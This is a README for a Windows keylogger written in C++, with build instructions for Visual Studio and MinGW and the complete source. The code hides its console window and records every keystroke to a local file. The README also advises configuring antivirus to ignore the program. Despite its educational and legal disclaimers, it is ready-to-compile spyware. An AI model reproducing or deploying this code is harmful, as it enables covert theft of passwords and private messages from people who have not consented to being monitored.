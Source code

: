 KeyLogger C++ README
Overview
KeyLogger C++ is a basic keylogging application implemented in C++ for Windows. It captures and logs keystrokes into a file named keylogger.txt. This project is intended for educational purposes to help understand how keylogging works. Unauthorized use of keyloggers is illegal and unethical.

Features
Logs keystrokes to keylogger.txt.
Handles special keys such as Space, Enter, Backspace, Caps Lock, Shift, Tab, Control, and Alt.
Hides the console window to run in the background.
Prerequisites
A C++ compiler supporting C++11 or later (e.g., Microsoft Visual Studio, MinGW).
Windows operating system.
Building the Application
Using Microsoft Visual Studio
Open Visual Studio and create a new project:

Select File -> New -> Project.
Choose Empty Project under the Visual C++ category and name it KeyLogger.
Add Source File:

Right-click on the Source Files folder in the Solution Explorer.
Select Add -> New Item.
Choose C++ File (.cpp) and name it main.cpp.
Copy and Paste the Code:

Open main.cpp and paste the code provided below into the file.
Build the Project:

Select Build -> Build Solution from the menu.
Using MinGW
Install MinGW and ensure it’s added to your system’s PATH.

Save the Code:

Create a file named main.cpp and paste the code provided below.
Compile the Code:

Open a command prompt and navigate to the directory containing main.cpp.
Run the command:
sh
Copy code
g++ -o KeyLogger main.cpp -lgdi32
Running the Application
After building the project, you’ll have an executable file named KeyLogger.exe.
Run the executable from the command prompt or by double-clicking it.
Code Example
cpp
Copy code
#include <iostream>
#include <fstream>
#include <windows.h>
#include <bits/stdc++.h>

#define LOG_FILE "keylogger.txt"

void saveData(const std::string& data) {
    std::ofstream logfile(LOG_FILE, std::ios::app);

    if (logfile.is_open()) {
        logfile << data;
        logfile.close();
    } else {
        std::cerr << "Error opening log file." << std::endl;
    }
}

std::string translateSpecialKey(int key) {
    std::string result;

    switch(key) {
        case VK_SPACE: result = " "; break;
        case VK_RETURN: result = "\n"; break;
        case VK_BACK: result = "\b"; break;
        case VK_CAPITAL: result = "[CAPS_LOCK]"; break;
        case VK_SHIFT: result = "[SHIFT]"; break;
        case VK_TAB: result = "[TAB]"; break;
        case VK_CONTROL: result = "[CTRL]"; break;
        case VK_MENU: result = "[ALT]"; break;
        default: break;
    }

    return result;
}

int main() {
    const int specialKeyArray[] = {VK_SPACE, VK_RETURN, VK_BACK, VK_CAPITAL, VK_SHIFT, VK_TAB, VK_CONTROL, VK_MENU};

    HWND hwnd = GetConsoleWindow();
    ShowWindow(hwnd, SW_HIDE);

    while(true) {
        for (int key = 8; key <= 190; key++) {
            if (GetAsyncKeyState(key) == -32767) {
                bool isSpecialKey = std::find(std::begin(specialKeyArray), std::end(specialKeyArray), key) != std::end(specialKeyArray);

                if (isSpecialKey) {
                    std::string specialKeyChar = translateSpecialKey(key);
                    saveData(specialKeyChar);
                } else {
                    if (GetKeyState(VK_CAPITAL)) {
                        saveData(std::string(1, static_cast<char>(key)));
                    } else {
                        saveData(std::string(1, static_cast<char>(std::tolower(key))));
                    }
                }
            }
        }
    }

    return 0;
}
Important Notes
Permissions: Ensure you have explicit permission to use this software on any system. Unauthorized monitoring is illegal and unethical.
Antivirus Software: Some antivirus programs may flag this software. Make sure your antivirus is configured to handle or ignore this application as necessary.
Legal Disclaimer: The use of this keylogger should comply with all applicable laws and regulations. Misuse can result in legal consequences.
License
This project is intended for educational purposes only and is released under the MIT License. See the LICENSE file for more details.

Contact
For questions or issues, please contact Sarath Murukan at sarathmurukansnmimt@gmail.com.

Remember to use this software responsibly and only in environments where you have explicit permission to monitor keystrokes.






